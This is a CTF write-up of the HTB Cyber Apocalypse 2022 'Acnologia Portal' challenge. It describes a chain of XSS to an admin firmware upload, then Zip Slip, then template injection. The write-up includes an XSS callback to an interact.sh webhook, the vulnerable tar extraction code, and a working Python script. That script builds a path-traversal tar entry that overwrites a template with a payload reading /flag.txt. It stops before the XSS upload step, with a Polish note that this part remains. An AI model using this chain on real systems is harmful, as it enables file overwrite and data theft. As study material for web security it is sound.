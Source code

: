 # Acnologia Portal
Acnologia Portal is another medium web challenge solved by our team during HTB Cyber Apocalypse 2022. It starts with the login page, where in addition we can create our own new account. 

![login.png](login.png)

After successful login, we are redirected to the `/dashboard` page, where is a list of firmwere. 

![list.png](list.png)

Main function of the application is to report a bug to the particular firmware, then the bug will be reviewed by the `administrator`. So our first thought was to try XSS.

## XSS

We checked for XSS by trying to send a request to the webhook and it worked!
```
<img src="http://c9zv8s32vtc0000byq1ggfbg1fwyyyyyn.interact.sh">
```

## Source Code

The flag is hidden in the file `flag.txt` so there is no way by using only XSS to end the challnege. Source code was given, so let's see what other functions we have.

The admin's behaviour is described in `bot.py` file, its his purpose is only review our bug report. More intrestnig part is in `routes.py`, there are 2 functions where admin's privileges are needed - `review_report()` and `firmware_update()`. The second one caught your attention, the functionality is described in detail in `util.py`.

```
def extract_firmware(file):
    tmp  = tempfile.gettempdir()
    path = os.path.join(tmp, file.filename)
    file.save(path)

    if tarfile.is_tarfile(path):
        tar = tarfile.open(path, 'r:gz')
        tar.extractall(tmp)

        rand_dir = generate(15)
        extractdir = f"{current_app.config['UPLOAD_FOLDER']}/{rand_dir}"
        os.makedirs(extractdir, exist_ok=True)
        for tarinfo in tar:
            name = tarinfo.name
            if tarinfo.isreg():
                try:
                    filename = f'{extractdir}/{name}'
                    os.rename(os.path.join(tmp, name), filename)
                    continue
                except:
                    pass
            os.makedirs(f'{extractdir}/{name}', exist_ok=True)
        tar.close()
        return True

    return False
```
It seems an administrator can upload a tar file to be unpacked to the server, which is an perfect scenario for the `Zip Slip` vulnerability.

## Zip Slip

So the idea is that XSS does the tar file upload and perform the Zip Slip attack. I have checked after some code modifiaction if Zip Slip works locally (commented the `@is_admin()` lines) and I was able to replace original files.

Best files to replace in our opinion are the templates, so we have picked `register.html`, and after of tar file upload, `/register` page is going to read the flag.

```
import tarfile    
import io            
import requests
import time
    
fname = "../../../../../../../../../app/application/templates/register.html"                    
data = b"""                                                                           
{{ get_flashed_messages.__globals__.__builtins__.open("/flag.txt").read() }}
"""                                       
source = io.BytesIO(initial_bytes=data)                                                  

fh = io.BytesIO()                           
with tarfile.open(fileobj=fh, mode='w:gz') as tar:
    info = tarfile.TarInfo(fname)   
    info.size = len(data)
    info.mtime = time.time()            
    tar.addfile(info, source)                                                                                   

with open('test.tar.gz', 'wb') as f:
    f.write(fh.getvalue())
    
f.close()
```

`a teraz jak przygotować XSS-a, który zauploaduje nam tar-a i jednocześnie nie spadnie z rowerka`
